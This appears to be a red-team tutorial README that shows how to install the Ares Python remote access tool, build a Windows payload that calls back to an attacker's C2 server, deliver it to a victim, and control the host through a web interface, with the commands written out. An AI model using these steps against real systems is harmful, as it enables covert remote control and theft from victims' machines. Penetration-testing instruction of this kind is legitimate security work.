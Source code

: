 # Red Teaming Squad : Command & Control

Command and control (C2) systems are used to manage remote sessions from compromised hosts. From a command and control program interface, a security tester or attacker can send commands directly from the program or access a remote shell. During a penetration test, a security tester can deploy a remote access terminal (RAT) on a compromised host that dials back to a command and control server.


## C2 with Web Interface : Ares

Ares is a Python Remote Access Tool and is made of two main programs:
1. A command and control server, which is a Web interface to administer the agents
2. An agent program, which is run on the compromised host, and ensures communication with the CNC


### Installation

You can install "Ares" using following command:

```
git clone https://github.com/sweetsoftware/Ares
cd Ares
pip install -r requirements.txt
./wine_setup.sh
```

### Usage

First of all you have to change the server address to attacker's IP address.

<kbd>![](Command_&_Control/1.png)</kbd>

Now create payload(exe file because target system is windows) using ```./builder.py -p Windows --server http://192.168.43.250:8080 -o temp.exe``` command and transfer the payload to victim's machine.

<kbd>![](Command_&_Control/2.png)</kbd>

Now initiate the server database using ```./ares.py initdb``` and then start the server using ```./ares.py runserver -h 192.168.43.250 -p 8080 --threaded``` command.

<kbd>![](Command_&_Control/3.png)</kbd>

Access the web server through browser.

<kbd>![](Command_&_Control/4.png)</kbd>

Run the payload.

<kbd>![](Command_&_Control/5.png)</kbd>

Observe the session on server.

<kbd>![](Command_&_Control/6.png)</kbd>

Now attacker can interact with target machine through the web interface.

<kbd>![](Command_&_Control/7.png)</kbd>

One of the benefit of ares tool is that victim won't notice that any unwanted application is running on his/her machine. If victim checks the running processes then he/she will find the exe file running on the machine. 

<kbd>![](Command_&_Control/8.png)</kbd>

For more use cases, you can use ```./builder.py --help``` command or you can visit this [URL](https://github.com/trustedsec/unicorn).